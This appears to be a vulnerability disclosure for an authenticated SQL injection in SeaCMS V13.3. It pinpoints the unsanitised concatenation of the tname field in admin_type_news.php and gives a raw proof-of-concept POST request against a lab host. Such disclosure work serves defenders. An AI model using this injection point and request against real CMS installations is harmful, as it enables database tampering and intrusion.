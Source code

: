 Seacms V13.3 has an SQL injection vulnerability that allows an authenticated attacker to exploit the database.

Download address：https://www.seacms.com/download/



![image-20250114112543982](images/image-20250114112543982.png)



The vulnerability is located in the admin_type_news.php file, starting from line 99 of the code, first check that the value of the '$action' variable is equal to 'edit', and then check who has no options in the $e_id variable, and then continue to go down into the loop. Inside the loop, the values of various form fields associated with the current ID are retrieved from the POST request, and if they are not empty, an SQL update statement is constructed and executed to update the new field values to the corresponding record in the database's 'sea_type' table. In line 129, you can see that there is a concatenation of SQL statements, and the parameters are requestable, there is no restriction, you can construct 'to close the tname parameter, causing SQL injection problems.



![image-20250114135735721](images/image-20250114135735721.png)



```
POST /seacms/51fek7/admin_type_news.php?action=edit HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Referer: http://192.168.80.152/seacms/51fek7/admin_type_news.php
Cookie: PHPSESSID=s5fhh9q24e7k8rjpi28g6o3j40; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1058

e_id%5B%5D=17&tname17=%E5%9B%BD%E5%86%85&tenname17=guonei&templist17=newspage.html&templist_117=news.html&keyword17=&description17=&torder17=17&tname18=%E5%9B%BD%E9%99%85&tenname18=guoji&templist18=newspage.html&templist_118=news.html&keyword18=&description18=&torder18=18&tname19=%E7%A4%BE%E4%BC%9A&tenname19=shehui&templist19=newspage.html&templist_119=news.html&keyword19=&description19=&torder19=19&tname20=%E5%86%9B%E4%BA%8B&tenname20=junshi&templist20=newspage.html&templist_120=news.html&keyword20=&description20=&torder20=20&tname21=%E5%A8%B1%E4%B9%90&tenname21=yule&templist21=newspage.html&templist_121=news.html&keyword21=&description21=&torder21=21&tname22=%E5%85%AB%E5%8D%A6&tenname22=bagua&templist22=newspage.html&templist_122=news.html&keyword22=&description22=&torder22=22&tname23=%E7%A7%91%E6%8A%80&tenname23=keji&templist23=newspage.html&templist_123=news.html&keyword23=&description23=&torder23=23&tname24=%E8%B4%A2%E7%BB%8F&tenname24=caijing&templist24=newspage.html&templist_124=news.html&keyword24=&description24=&torder24=24&upid_to=0
```







![image-20250114110220512](images/image-20250114110220512.png)

















